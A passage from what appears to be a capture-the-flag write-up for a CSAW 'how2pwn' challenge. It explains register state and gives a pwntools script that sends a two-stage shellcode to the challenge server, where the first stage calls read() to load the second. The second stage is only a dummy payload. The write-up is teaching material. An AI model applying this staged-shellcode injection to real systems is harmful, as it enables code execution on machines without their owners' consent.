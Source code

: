 As you can see, a few interesting things are going on:

* `rax` which is the register for the syscall number is already set to 0, which corresponds to the `read` syscall
* `rdi` is 0, which corresponds to the `fd` argument. File descriptor 0 is the `stdin`.
* The breakpoint is at the `call rdx` instruction. As you can see, `rdx` and `rsi` have the same value. `rsi` is the register that points to the memory area where we will place our 2nd stage shellcode. We can simply use its current value. This means that we will overwrite the stage1 shellcode when the `read` system call will get executed, and then execution will fall-through to stage2 without the need for a jump.

So, let's write our shellcode now using pwntools and send it to the target:

```python
def craft_shellcode_stage1():
    # ssize_t read(unsigned int fd, char __user *buf, size_t count)
    # stdin = 0
    shellcode = asm('''
        mov edx, 0x100
        syscall
    ''')

    padded_shellcode = shellcode + b'\x90'*(0x10 - len(shellcode)) # pad with NOPs
    assert(len(padded_shellcode) == 0x10)
    return padded_shellcode

def craft_shellcode_stage2():
    return b'A'*0x100 # dummy payload

ticket1 = b'764fce03d863b5155db4af260374acc1'
if args['REMOTE']:
    remote_server = 'how2pwn.chal.csaw.io'
    remote_port = 60002
    io = remote(remote_server, remote_port)
else:
    io = start()

stage1_shellcode = craft_shellcode_stage1()
stage2_shellcode = craft_shellcode_stage2()

io.send(ticket1)
io.recvuntil(b'Enter your shellcode: ')
io.send(stage1_shellcode) # invokes read()
io.send(stage2_shellcode) # feeds the above read() syscall
io.interactive()
io.close()
```

<table>
<tr>
<td align="center" width=50%>
